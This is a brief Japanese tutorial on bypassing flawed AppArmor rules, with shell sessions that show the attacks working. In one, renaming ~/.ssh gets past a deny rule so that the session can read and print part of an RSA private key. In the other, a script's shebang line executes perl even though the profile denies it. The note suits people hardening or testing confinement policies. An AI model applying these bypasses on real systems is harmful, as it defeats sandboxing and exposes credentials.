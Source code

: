 # AppArmor のバイパス方法

AppArmor は記法が複雑であるため、バイパス可能なルールを記述してしまうケースがあります。  
ここでは、いくつかそれらの例を示したいと思います。

## 親ディレクトリを rename する

次のように `mybash` が `.ssh/` 配下のファイルを操作できないようなルールを記述します。

```c
#include <tunables/global>

/home/ubuntu/mybash {
  #include <abstractions/base>
  file,

  deny /home/ubuntu/.ssh/** mrwklx,
}
```

一見問題が無いように見えますが、 `.ssh` を rename することでバイパスできます。

```sh
ubuntu@sandbox:~$ cat .ssh/id_rsa
cat: .ssh/id_rsa: Permission denied
ubuntu@sandbox:~$ mv .ssh .sshx
ubuntu@sandbox:~$ head .sshx/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEApQusoFpwaUZ9k8Y8b521n76ImX85uGTtrnMLTK2XDkp+AEj/
```

## shebang を使った bypass

次のように mybash で perl の実行を禁止するとします。

```c
#include <tunables/global>

/home/ubuntu/mybash {
  #include <abstractions/base>
  file,

  deny /usr/bin/perl mrwlx,
}
```

この場合 shebang を使うことで perl の実行が可能です。

```sh
ubuntu@sandbox:~$ cat test.pl
#!/usr/bin/perl

print("hello\n")
ubuntu@sandbox:~$ perl ./test.pl
mybash: /usr/bin/perl: Permission denied
ubuntu@sandbox:~$ ./test.pl
hello
```

